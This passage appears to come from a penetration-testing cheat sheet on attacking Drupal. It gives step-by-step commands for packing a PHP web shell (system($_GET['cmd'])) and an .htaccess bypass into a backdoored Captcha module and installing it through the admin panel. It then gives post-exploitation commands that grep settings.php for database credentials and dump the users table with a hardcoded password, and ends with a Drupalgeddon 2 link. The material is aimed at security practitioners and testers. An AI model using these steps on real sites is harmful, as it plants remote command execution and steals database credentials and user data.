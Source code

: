 * Download the archive and extract its contents.

```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

* Create a **PHP web shell** with the contents:

```php
<?php
system($_GET["cmd"]);
?>
```

* Next, we need to create a **`.htaccess`** file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the **`/modules`** folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

* The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.

```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```

* Assuming we have **administrative access** to the website, click on **`Manage`** and then **`Extend`** on the sidebar. Next, click on the **`+ Install new module`** button, and we will be taken to the install page, such as `http://drupal-site.local/admin/modules/install` Browse to the backdoored Captcha archive and click **`Install`**.
* Once the installation succeeds, browse to **`/modules/captcha/shell.php`** to execute commands.

#### Post Exploitation

#### Read settings.php

```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```

#### Dump users from DB

```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```

### \[CVE-2018-7600] Drupalgeddon 2

[https://ine.com/blog/cve-2018-7600-drupalgeddon-2](https://ine.com/blog/cve-2018-7600-drupalgeddon-2)

